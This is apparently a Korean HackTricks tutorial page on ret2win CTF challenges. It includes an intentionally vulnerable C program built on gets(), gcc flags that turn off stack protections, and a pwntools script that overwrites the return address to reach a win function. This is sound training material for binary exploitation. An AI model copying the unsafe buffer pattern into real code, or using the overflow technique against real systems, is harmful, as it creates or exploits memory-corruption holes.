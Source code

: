 # Ret2win

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

**Ret2win** 챌린지는 **Capture The Flag (CTF)** 대회에서 인기 있는 카테고리로, 특히 **binary exploitation**과 관련된 작업에서 그렇습니다. 목표는 주어진 바이너리의 취약점을 이용하여 바이너리 내에서 특정 호출되지 않은 함수를 실행하는 것입니다. 이 함수는 보통 `win`, `flag`와 같은 이름을 가집니다. 이 함수가 실행되면 일반적으로 플래그나 성공 메시지를 출력합니다. 이 챌린지는 일반적으로 스택의 **return address**를 덮어써서 실행 흐름을 원하는 함수로 전환하는 것을 포함합니다. 다음은 예제를 포함한 더 자세한 설명입니다:

### C Example

취약점이 있는 간단한 C 프로그램과 우리가 호출하려는 `win` 함수가 있다고 가정해 보겠습니다:
```c
#include <stdio.h>
#include <string.h>

void win() {
printf("Congratulations! You've called the win function.\n");
}

void vulnerable_function() {
char buf[64];
gets(buf); // This function is dangerous because it does not check the size of the input, leading to buffer overflow.
}

int main() {
vulnerable_function();
return 0;
}
```
이 프로그램을 스택 보호 없이 **ASLR**을 비활성화하여 컴파일하려면 다음 명령어를 사용할 수 있습니다:
```sh
gcc -m32 -fno-stack-protector -z execstack -no-pie -o vulnerable vulnerable.c
```
* `-m32`: 프로그램을 32비트 바이너리로 컴파일합니다 (선택 사항이지만 CTF 챌린지에서 일반적입니다).
* `-fno-stack-protector`: 스택 오버플로우에 대한 보호를 비활성화합니다.
* `-z execstack`: 스택에서 코드 실행을 허용합니다.
* `-no-pie`: `win` 함수의 주소가 변경되지 않도록 위치 독립 실행 파일을 비활성화합니다.
* `-o vulnerable`: 출력 파일 이름을 `vulnerable`로 설정합니다.

### Pwntools를 이용한 Python 익스플로잇

익스플로잇을 위해 **pwntools**를 사용할 것입니다. 이는 익스플로잇 작성을 위한 강력한 CTF 프레임워크입니다. 익스플로잇 스크립트는 버퍼를 오버플로우하고 `win` 함수의 주소로 반환 주소를 덮어쓰는 페이로드를 생성합니다.
```python
from pwn import *

# Set up the process and context for the binary
binary_path = './vulnerable'
p = process(binary_path)
context.binary = binary_path

# Find the address of the win function
win_addr = p32(0x08048456)  # Replace 0x08048456 with the actual address of the win function in your binary

# Create the payload
# The buffer size is 64 bytes, and the saved EBP is 4 bytes. Hence, we need 68 bytes before we overwrite the return address.
payload = b'A' * 68 + win_addr

# Send the payload
p.sendline(payload)
p.interactive()
```
`win` 함수의 주소를 찾으려면 **gdb**, **objdump** 또는 이진 파일을 검사할 수 있는 다른 도구를 사용할 수 있습니다. 예를 들어, `objdump`를 사용하여 다음과 같이 할 수 있습니다:
```sh
objdump -d vulnerable | grep win
```
이 명령은 `win` 함수의 어셈블리를 보여주며, 시작 주소를 포함합니다.&#x20;

Python 스크립트는 `vulnerable_function`에 의해 처리될 때 버퍼를 오버플로우하고 스택의 반환 주소를 `win`의 주소로 덮어쓰는 정교하게 제작된 메시지를 보냅니다. `vulnerable_function`이 반환될 때, `main`으로 반환하거나 종료하는 대신 `win`으로 점프하고 메시지가 출력됩니다.

## 보호 조치

* [**PIE**](../../common-binary-protections-and-bypasses/pie/) **는 비활성화되어야** 주소가 실행 간에 신뢰할 수 있도록 하거나 함수가 저장될 주소가 항상 동일하지 않으며, `win` 함수가 로드된 위치를 파악하기 위해 어떤 leak이 필요합니다. 오버플로우를 유발하는 함수가 `read` 또는 유사한 경우, 반환 주소를 `win` 함수로 변경하기 위해 1 또는 2 바이트의 **부분 덮어쓰기**를 수행할 수 있습니다. ASLR의 작동 방식 때문에 마지막 세 개의 16진수 니블은 무작위화되지 않으므로, 올바른 반환 주소를 얻을 확률은 **1/16** (1 니블)입니다.
* [**스택 카나리**](../../common-binary-protections-and-bypasses/stack-canaries/)도 비활성화되어야 하며, 그렇지 않으면 손상된 EIP 반환 주소가 결코 따라지지 않을 것입니다.

## 기타 예제 및 참조

* [https://ir0nstone.gitbook.io/notes/types/stack/ret2win](https://ir0nstone.gitbook.io/notes/types/stack/ret2win)
* [https://guyinatuxedo.github.io/04-bof\_variable/tamu19\_pwn1/index.html](https://guyinatuxedo.github.io/04-bof\_variable/tamu19\_pwn1/index.html)
* 32비트, ASLR 없음
* [https://guyinatuxedo.github.io/05-bof\_callfunction/csaw16\_warmup/index.html](https://guyinatuxedo.github.io/05-bof\_callfunction/csaw16\_warmup/index.html)
* ASLR가 있는 64비트, bin 주소의 leak 포함
* [https://guyinatuxedo.github.io/05-bof\_callfunction/csaw18\_getit/index.html](https://guyinatuxedo.github.io/05-bof\_callfunction/csaw18\_getit/index.html)
* 64비트, ASLR 없음
* [https://guyinatuxedo.github.io/05-bof\_callfunction/tu17\_vulnchat/index.html](https://guyinatuxedo.github.io/05-bof\_callfunction/tu17\_vulnchat/index.html)
* 32비트, ASLR 없음, 이중 소규모 오버플로우, 첫 번째로 스택을 오버플로우하고 두 번째 오버플로우의 크기를 늘림
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32비트, relro, 카나리 없음, nx, pie 없음, `fflush` 주소를 `win` 함수로 덮어쓰는 포맷 문자열 (ret2win)
* [https://guyinatuxedo.github.io/15-partial\_overwrite/tamu19\_pwn2/index.html](https://guyinatuxedo.github.io/15-partial\_overwrite/tamu19\_pwn2/index.html)
* 32비트, nx, 그 외 없음, win 함수를 호출하기 위한 EIP의 부분 덮어쓰기 (1Byte)
* [https://guyinatuxedo.github.io/15-partial\_overwrite/tuctf17\_vulnchat2/index.html](https://guyinatuxedo.github.io/15-partial\_overwrite/tuctf17\_vulnchat2/index.html)
* 32비트, nx, 그 외 없음, win 함수를 호출하기 위한 EIP의 부분 덮어쓰기 (1Byte)
* [https://guyinatuxedo.github.io/35-integer\_exploitation/int\_overflow\_post/index.html](https://guyinatuxedo.github.io/35-integer\_exploitation/int\_overflow\_post/index.html)
* 프로그램은 입력 크기를 확인하기 위해 숫자의 마지막 바이트만 검증하므로, 마지막 바이트가 허용된 범위 내에 있는 한 어떤 크기도 추가할 수 있습니다. 그런 다음 입력은 ret2win으로 악용된 버퍼 오버플로우를 생성합니다.
* [https://7rocky.github.io/en/ctf/other/blackhat-ctf/fno-stack-protector/](https://7rocky.github.io/en/ctf/other/blackhat-ctf/fno-stack-protector/)
* 64비트, relro, 카나리 없음, nx, pie. win 함수를 호출하기 위한 부분 덮어쓰기 (ret2win)
* [https://8ksec.io/arm64-reversing-and-exploitation-part-3-a-simple-rop-chain/](https://8ksec.io/arm64-reversing-and-exploitation-part-3-a-simple-rop-chain/)
* arm64, PIE, win 함수는 실제로 2개의 함수이므로 2개의 함수를 호출하는 ROP 가젯
* [https://8ksec.io/arm64-reversing-and-exploitation-part-9-exploiting-an-off-by-one-overflow-vulnerability/](https://8ksec.io/arm64-reversing-and-exploitation-part-9-exploiting-an-off-by-one-overflow-vulnerability/)
* ARM64, off-by-one으로 win 함수를 호출

## ARM64 예제

{% content-ref url="ret2win-arm64.md" %}
[ret2win-arm64.md](ret2win-arm64.md)
{% endcontent-ref %}

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
